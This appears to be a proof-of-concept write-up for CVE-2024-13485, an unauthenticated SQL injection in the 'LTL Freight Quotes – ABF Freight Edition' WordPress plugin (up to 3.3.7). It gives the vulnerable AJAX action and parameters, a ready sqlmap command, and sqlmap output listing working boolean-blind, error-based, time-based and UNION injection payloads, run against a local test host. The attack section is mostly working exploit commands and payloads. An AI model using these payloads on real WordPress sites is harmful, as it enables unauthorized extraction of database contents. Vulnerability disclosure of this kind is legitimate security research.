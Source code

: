 # CVE-2024-13485
LTL Freight Quotes – ABF Freight Edition <= 3.3.7 - Unauthenticated SQL Injection

# Description

The LTL Freight Quotes – ABF Freight Edition plugin for WordPress is vulnerable to SQL Injection via the 'edit_id' and 'dropship_edit_id' parameters in all versions up to, and including, 3.3.7 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: ltl-freight-quotes-abf-freight-edition
- **Affected Version**: 3.3.7
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-13485
- **Status**: Active

POC
---

```
sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin-ajax.php' --data='action=en_wd_edit_warehouse&edit_id=1&wp_nonce=13db5f2e7d' --level=2 --dbms='MySQL '

[*] starting @ 15:35:17 /2025-02-20/

[15:35:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: edit_id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND 8084=8084&wp_nonce=13db5f2e7d

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND GTID_SUBSET(CONCAT(0x7170787171,(SELECT (ELT(3874=3874,1))),0x717a627171),3874)&wp_nonce=13db5f2e7d

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND (SELECT 8170 FROM (SELECT(SLEEP(5)))Gvfy)&wp_nonce=13db5f2e7d

    Type: UNION query
    Title: Generic UNION query (NULL) - 20 columns
    Payload: action=en_wd_edit_warehouse&edit_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170787171,0x6e57584a4f524f56504572467179796c6a6c6c527872646a73464444414144707067736542565243,0x717a627171),NULL,NULL,NULL,NULL,NULL-- -&wp_nonce=13db5f2e7d
---
[15:35:18] [INFO] testing MySQL
[15:35:18] [INFO] confirming MySQL
[15:35:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.21, Apache 2.4.59
back-end DBMS: MySQL >= 8.0.0

```
